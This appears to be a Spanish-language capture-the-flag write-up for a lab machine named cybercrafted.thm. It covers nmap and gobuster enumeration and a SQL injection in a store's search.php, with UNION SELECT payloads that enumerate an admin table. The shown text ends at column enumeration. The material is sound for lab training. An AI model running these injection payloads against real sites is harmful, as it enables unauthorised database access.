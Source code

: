 ### Tags: `Virtual Hosting` `SQLI` `ssh2john`

# Escaneo (*22,80,25565*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn ip -oN escaneo
```
![image](https://github.com/user-attachments/assets/f0272aa8-5cfc-4150-a6fe-e7be9d396599)

# Web port80

Encontramos un dominio que lo añadimos sal  `etc/hosts`

![image](https://github.com/user-attachments/assets/9a964c02-b302-4e33-8090-8537bf3a52a8)

Ahora visualizamos la web y no había nada pero cuando hicimos `Ctrl + u` encontramos esto

![image](https://github.com/user-attachments/assets/c1ce8331-fd13-4d65-b70d-4a6d4ba51e1f)

## Gobuster (**subdominios**)

```ruby
gobuster vhost -u http://cybercrafted.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

Encontramos estos subdominios los agregamos al `etc/hosts`

![image](https://github.com/user-attachments/assets/be7fc1ce-5590-4615-a596-478575e2909a)

En los 2 (que marcamos en rojo) había un **panel de login** que era el mismo --> (por este lado no es la vía)

![image](https://github.com/user-attachments/assets/99e08865-a65c-40cc-b483-4a6acd18f59c)

También había un subdominio `www.store.cybercrafted.thm` y haciendo Gobuster encontramos este `search.php

![image](https://github.com/user-attachments/assets/dd9247cc-8988-49cd-a414-e181d107ef53)

```ruby
gobuster dir -u http://www.store.cybercrafted.thm/  -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php --no-error
```

![image](https://github.com/user-attachments/assets/40e00520-edb0-48ef-939c-e7e093ec3d1d)
![image](https://github.com/user-attachments/assets/51dca3c3-8ae7-4158-b14a-b2a6bc9b600b)

# SQLI (**BurpSuite**)

 Observamos que es panel es a vulnerable `sql injection`, si poníamos `'or 1=1 -- -` nos muestra ítems que no aparecían antes. Interceptamos la petición con Burp y con `'order by 4-- -` supimos que había cuatro columnas.
 Con este comando `'union select NULL,NULL,NULL,table_name FROM information_schema.tables -- -` observamos una tabla llamada `admin`

![image](https://github.com/user-attachments/assets/36d09945-f699-4884-80ed-2b5ad6936794)

Con este comando `'union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_name = 'admin' -- -`  enumeramos las tablas de `admin`.

![image](https://github.com/user-attachments/assets/a8fb8bf0-294b-428f-90a8-8cf8e2bfec6a)
